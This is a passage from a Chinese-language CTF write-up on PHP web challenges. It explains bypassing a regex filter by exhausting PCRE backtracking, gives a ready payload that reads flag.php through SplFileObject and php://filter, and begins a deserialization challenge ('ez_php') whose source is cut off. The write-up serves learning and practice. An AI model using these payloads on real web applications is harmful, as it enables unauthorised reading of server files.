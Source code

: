 第三处绕过

```php
if (preg_match('/.+?HACKER/is',$try)){
        die("你是hacker还敢自报家门呢？");
    }
    if (!stripos($try,'HACKER') === TRUE){
        die("你连自己是hacker都不承认，还想要flag呢？");
    }
```

在这里的第一个if语句里，使用了`非贪婪匹配`正则表达式检查变量$try，这两个if语句的作用就是，要求变量$try中不能含有hacker，又要求在$try中必须能找到hacker

::: tip
可以参考：[【正则表达式,复现绕过案例】](https://blog.csdn.net/weixin_59280309/article/details/125881818)
:::

在这篇文章里，作者使用`/*1000000多个a*/hacker`，绕过了非贪婪匹配的限制

```python
# POST：try=/*1001000个a*/hacker
print("/*"+"a"*1001000+"*/hacker")
```

最后接收a,b,c三个参数，一眼原生类读取文件

使用原生类`SplFileObject`，搭配伪协议和__toString方法读取文件内容。`payload：a=SplFileObject&b=php://filter/convert.base64-encode/resource=flag.php&c=__toString`，`(new $a($b))->$c()`在XYCTF里碰到一次，有点印象，直接梭哈

所以最后的payload：

GET：`?e[m.p=0337522&a=SplFileObject&b=php://filter/convert.base64-encode/resource=flag.php&c=__toString`
POST：`try=/*1001000个a*/hacker`，里面的a用python打出来手动复制替换进去

## [Fin] ez_php

::: tip 笔者说
这道题卡了我两天，做起来太爽啦，卡在了wakeup的`$this->username="hacker";$this->end = $this->start;`，晨曦师傅题目太赞啦

最后，这种非常长的题目建议一定要复制到本地测试，多加几句调试语句，观察进度，不然很难看出来问题在哪
:::

考点：`php特性 mb_strpos函数的漏洞 wakeup绕过 fast-destruct 属性引用`

源码

::: details
```php
<?php
highlight_file(__file__);
function substrstr($data)
{
    $start = mb_strpos($data, "[");
    $end = mb_strpos($data, "]");
    return mb_substr($data, $start + 1, $end - 1 - $start);
}

class Hacker{
    public $start;
    public $end;
    public $username="hacker";
    public function __construct($start){
        $this->start=$start;
    }
    public function __wakeup(){
        $this->username="hacker";
        $this->end = $this->start;
    }

```